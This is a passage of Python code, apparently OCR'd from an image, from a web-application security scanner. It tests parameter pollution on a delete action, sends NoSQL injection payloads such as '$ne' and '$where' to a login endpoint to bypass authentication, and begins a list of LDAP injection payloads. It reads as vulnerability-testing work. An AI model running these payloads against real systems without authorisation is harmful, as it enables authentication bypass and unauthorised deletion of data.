 ```python
            'action': 'delete'
        }
        
        response = self.session.post(
            urljoin(self.base_url, "/api/user/action"),
            data=polluted_params
        )
        
        # Check if parameter pollution causes unexpected behavior
        if response.status_code == 200:
            try:
                result = response.json()
                if 'deleted' in str(result).lower():
                    self.findings.append({
                        'type': 'Parameter Pollution',
                        'severity': 'Medium',
                        'description': 'Parameter pollution affects business logic',
                        'proof_of_concept': 'Multiple user_id values cause unexpected behavior',
                        'impact': 'Unintended actions on multiple resources'
                    })
            except:
                pass
                
    def test_advanced_injection(self):
        """Test advanced injection techniques"""
        print("Testing advanced injection vulnerabilities")
        
        # Test NoSQL injection
        nosql_payloads = [
            '{"$ne": null}',
            '{"$regex": ".*"}',
            '{"$where": "this.username == this.password"}',
            '{"$gt": ""}',
            '{"username": {"$ne": null}, "password": {"$ne": null}}'
        ]
        
        login_url = urljoin(self.base_url, "/api/auth/login")
        
        for payload in nosql_payloads:
            try:
                response = self.session.post(
                    login_url,
                    json=json.loads(payload),
                    headers={'Content-Type': 'application/json'}
                )
                
                if response.status_code == 200 and 'token' in response.text:
                    self.findings.append({
                        'type': 'NoSQL Injection',
                        'severity': 'Critical',
                        'description': f'NoSQL injection bypass with payload: {payload}',
                        'proof_of_concept': f'POST {login_url} with NoSQL payload',
                        'impact': 'Authentication bypass in NoSQL database'
                    })
                    break
            except:
                continue
                
        # Test LDAP injection
        ldap_payloads = [
            "admin)(&(objectClass=*))",
            "admin)(|(objectClass=*))",
            "admin)(&(password=*))(objectClass=*"
```